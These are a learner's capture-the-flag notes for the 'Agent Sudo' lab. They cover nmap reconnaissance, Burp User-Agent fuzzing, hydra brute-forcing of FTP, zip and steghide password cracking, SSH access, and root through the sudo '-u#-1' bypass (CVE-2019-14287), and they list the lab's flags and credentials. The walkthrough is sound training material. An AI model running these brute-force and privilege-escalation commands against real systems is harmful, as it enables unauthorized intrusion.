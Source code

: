 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

'''
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	http-server-header: Apache/2.4.29 (Ubuntu)
	http-title: Annoucement
'''

---------------------
	Visiting Site
---------------------

'''
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
'''
//Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


---Possible Users---

- Chris
- R?
- J?


# Intrusion #

---ChrisFTP---

- ftp $IP
	Name: chris
	Pass: crystal

ftp > ls

	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
	
ftp > mget To_agentJ cute-alien.jpg cutie.png
ftp > exit

//all right so we've got all Chris' files, let's see what's headers

- To_agentJ.txt	

'''
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
'''

//oh okay stenography

---Stenography---

- binwalk cutie.png -e
- ls _cutie.png.extracted

'''
365  365.zlib  8702.zip  To_agentR.txt
'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

'''
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

'''
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
'''


---SSH---

- ssh james@$IP
	pass: hackerrules!

- ls

'''
Alien_autospy.jpg  user_flag.txt
'''

**Flag Found**
	/home/james/user_flag.txt: <b03d975e8c92a7c04146cfa7a5a313c7>



#PrivEsc

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
	"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"
	CVE: 2019-14287
	"sudo -u#-1 /bin/bash"

- root gain

**Flag Found**
	/root/root.txt: <b53a02f55b57d4439e3341834d70c062>



# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!

